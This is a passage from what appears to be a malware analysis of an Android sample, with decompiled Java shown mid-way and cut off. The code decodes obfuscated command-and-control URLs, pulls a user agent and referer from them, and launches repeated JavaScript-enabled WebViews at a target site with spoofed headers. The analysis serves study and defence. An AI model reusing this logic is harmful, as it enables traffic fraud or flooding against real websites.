 In the code block below the class is calling out to the C2 and grabbing two text files `agent` and `ref`. Then it is loading ten WebViews to load the referenced text files content from the C2. Since this sample C2 URL is down it is hard to known exactly what each text file contains. 

```java
[TRUNCATED]
this.siten = site;
        this.threadsn = threads;
        try { // http://attack.systems/agent.txt
            this.agentim = kaynakal(encrypt.decode("eJzLKCkpsNLXTywpSUzO1iuuLC5JzS3WT0xPzSvRK6koAQC6iAvj")).trim(); // http://attack.systems/agent.txt
        } catch (IOException e) {
            e.printStackTrace();
        }
        try { // http://attack.systems/ref.txt
            this.refim = kaynakal(encrypt.decode("eJzLKCkpsNLXTywpSUzO1iuuLC5JzS3WL0pN0yupKAEAozoLEQ==")).trim(); // http://attack.systems/ref.txt
        } catch (IOException e2) {
            e2.printStackTrace();
        }
        if (islem.trim().equals("cross")) {
            Map<String, String> extraHeaders = new HashMap<>();
            extraHeaders.put("Referer", this.refim);
            WebView wv = new WebView(this);
            wv.getSettings().setUserAgentString(this.agentim);
            wv.getSettings().setJavaScriptEnabled(true);
            wv.loadUrl(this.siten, extraHeaders);
            WebView wv1 = new WebView(this);
            wv1.getSettings().setUserAgentString(this.agentim);
            wv1.getSettings().setJavaScriptEnabled(true);
            wv1.loadUrl(this.siten, extraHeaders);
            WebView wv2 = new WebView(this);
            wv2.getSettings().setUserAgentString(this.agentim);
            wv2.getSettings().setJavaScriptEnabled(true);
            wv2.loadUrl(this.siten, extraHeaders);
            WebView wv3 = new WebView(this);
            wv3.getSettings().setUserAgentString(this.agentim);
            wv3.getSettings().setJavaScriptEnabled(true);
            wv3.loadUrl(this.siten, extraHeaders);
            WebView wv4 = new WebView(this);
            wv4.getSettings().setUserAgentString(this.agentim);
            wv4.getSettings().setJavaScriptEnabled(true);
            wv4.loadUrl(this.siten, extraHeaders);
            WebView wv5 = new WebView(this);
            wv5.getSettings().setUserAgentString(this.agentim);
            wv5.getSettings().setJavaScriptEnabled(true);
            wv5.loadUrl(this.siten, extraHeaders);
            WebView wv6 = new WebView(this);
            wv6.getSettings().setUserAgentString(this.agentim);
            wv6.getSettings().setJavaScriptEnabled(true);
            wv6.loadUrl(this.siten, extraHeaders);
            WebView wv7 = new WebView(this);
            wv7.getSettings().setUserAgentString(this.agentim);
            wv7.getSettings().setJavaScriptEnabled(true);
            wv7.loadUrl(this.siten, extraHeaders);
            WebView wv8 = new WebView(this);
            wv8.getSettings().setUserAgentString(this.agentim);
            wv8.getSettings().setJavaScriptEnabled(true);
            wv8.loadUrl(this.siten, extraHeaders);
            WebView wv9 = new WebView(this);
            wv9.getSettings().setUserAgentString(this.agentim);
            wv9.getSettings().setJavaScriptEnabled(true);
            wv9.loadUrl(this.siten, extraHeaders);
            WebView wv10 = new WebView(this);
```